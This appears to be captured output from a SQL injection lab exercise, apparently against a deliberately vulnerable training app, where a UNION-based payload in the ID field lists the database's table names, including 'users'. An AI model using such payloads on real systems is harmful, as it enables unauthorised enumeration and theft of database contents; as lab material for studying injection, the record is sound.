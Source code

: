 	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: REFERENTIAL_CONSTRAINTS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: ROUTINES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: SCHEMATA
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: SCHEMA_PRIVILEGES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: SESSION_STATUS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: SESSION_VARIABLES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: STATISTICS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: TABLES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: TABLE_CONSTRAINTS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: TABLE_PRIVILEGES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: TRIGGERS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: USER_PRIVILEGES
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: VIEWS
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: guestbook
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: users
	